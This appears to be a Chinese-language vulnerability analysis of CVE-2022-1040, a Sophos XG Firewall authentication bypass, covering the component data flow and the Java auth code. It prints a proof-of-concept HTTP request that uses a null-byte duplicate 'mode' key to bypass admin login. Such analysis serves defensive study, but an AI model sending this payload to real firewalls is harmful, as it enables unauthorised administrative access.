 **数据流**

Sophos XG Firewall各组件调用关系可以简化如下：

 ![](/attachments/2024-04-10-json/3ac26c62-fae6-4816-8d05-f559ed138fd7.png)

apache接受用户的http请求后转发给jetty处理过滤后，通过类似于 HTTP 的 TCP 和 UDP 协议转发给csc服务，csc处理系统的核心业务，它的核心部分是用C语言编写的，逻辑部分是通过Perl C语言接口（Perl C Language Interface）用Perl语言编写的。

**核心方法分析**

具体的漏洞细节分析这里不做过多描述，参考 [《CVE-2022-1040 Sophos XG Firewall Authentication bypass》](https://blog.viettelcybersecurity.com/cve-2022-1040-sophos-xg-firewall-authentication-bypass/)。

我们这里只分析下关键的绕过逻辑，看下登录绕过的poc数据包：

```plain text
POST /webconsole/Controller HTTP/1.1
// Other request header
mode=151&json={"username":"admin","password":"somethingnotpassword","languageid":"1","browser":"Chrome_123","accessaction":1,"mode\u0000p0melo":716}&__RequestType=ajax&t=1712025156789}
```

主要起作用的是`mode`和`json`两个参数，jetty侧会通过`org.json-20090211`这个库解析json参数传的json数据，通过`cscClient.generateAndSendAjaxEvent`发送到CSC做认证，发送前会将`mode`参数`put`到解析后的json中，如果这里返回的状态码是200或者201，则认为是登录认证通过。

```java
public class WebAdminAuth {
  public static void process(final HttpServletRequest request, final HttpServletResponse response, final EventBean eventBean, final SqlReader sqlReader) {
    final JSONObject jsonObject = new JSONObject(request.getParameter("json"));
    final int languageId = jsonObject.getInt("languageid");
    final int returnedStatus = cscClient.generateAndSendAjaxEvent(request, response, eventBean, sqlReader);
    if (returnedStatus != 200 && returnedStatus != 201) {
     //...
    }
    else {
      String uname = "";
      if (jsonObject.has("username")) {
        uname = jsonObject.getString("username");
      }
      
      // ...

      final SessionBean sessionBean = new SessionBean();
      sessionBean.setUserName(uname);
      // ...
    }
  }
}
```

jetty侧的`org.json-20090211`这个库对于重复键会抛出异常

```java
import org.json.JSONObject;
import org.json.JSONObject;

public static void main(String[] args) throws JSONException {
 JSONObject json = new JSONObject("{ \"name\": \"test\", \"name\": \"test2\"}");
 System.out.println(json);
}
```
